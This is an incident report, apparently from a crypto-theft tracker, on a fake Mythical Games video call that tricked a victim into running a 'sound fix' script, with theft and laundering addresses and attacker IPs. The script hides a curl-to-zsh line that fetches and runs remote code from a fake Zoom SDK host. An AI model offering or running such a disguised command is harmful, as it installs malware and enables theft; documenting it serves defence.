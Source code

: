 # A6 via Fake Mythical Games

Date:: February 28th, 2025

Time:: 12:25 UTC – 01:58 UTC, 23:09 UTC

Amount Stolen:: $406,343

Tags:: 🔑

---


## Details

Had a video call with the exploiters

Was an issue with the sound

Victim ran the suggested fix script provided by the exploiters.

On call were 3 males. 2 didnt speak, one did. Seemed like live interaction (?)

- “John Linden” - @mythicaljohn - 7440942015

- https://calendly.com/john-mythicalgames/30min?month=2025-03

- meet[.]mythicalgames[.]foundation/zoom/join?mn=65185420&pwd=r47BVC

```
system_profiler SPAudioData
softwareupdate --evaluate-products --products audio --agree-to-license
curl -A audio -s https://api.zoom-sdk[.]us/update/drivers/65185420 | zsh
system_profiler SPSoundCardData
softwareupdate --evaluate-products --products soundcard
system_profiler SPSpeechData
softwareupdate --evaluate-products --products speech --agree-to-license
```




## Onchain

- TK3E1NWkehLoBKUWbhjUudxxjN4abYdu7T - Direct Theft

- EQAq887cEkvOMBdafawfjl8JqKIsk3DQopMT8q79D7r - Direct Theft

- 0x37ef7efda71203f17f26730611bd8eef11f5f8af - Primary Theft

- 0xd5944357a065245064a8b8dfc58e789a90dce0f6 - Consolidation

- TGoZ4yeuG13ysYYZEX334PvnqyWDnDJ2JT - Source of Gas Funds (2025-02-28)

- TAJFh3AqQKm6bvUYejJrH3k8htwTbunn5g - Source of Gas Funds (2025-02-28)

- 0x73565a7488cb4853c17923d88da3ccb81fd9aa8e - eXch Depo ($192k, 2025-03-14)

- 0x0c52194fd9148de91e96a8e123ab90f1482c6449 - eXch Depo ($218k, 2025-03-14)

- bc1q9knpsljy40j5jmphcyl7nzvhjvch5gp6kzhwnn - eXch Withdrawal ($191k)

- bc1qv4qm5jy2qy30ggjlygkd2665t90dcwuyga9hxe - eXch Withdrawal ($218k)

- bc1qfe4h6ghdg0fj37ftmsw437mfc4e74v5pvhfx8u - Laundry (Apr 10 2025)

- Used Defiway, ChangeNOW, FixedFloat, Symbiosis, OKX Dex, Bridgers from TRON and TON -> ETH



## Indicators

- 2025-02-28 - 85.203.44.XX

- 2025-03-03 - 103.125.146.XX

- 2025-03-03 - 103.163.220.XX

- 2025-03-03 - 83.234.227.XX (Leaked TTK)

- 2025-03-03 - 212.30.36.XX
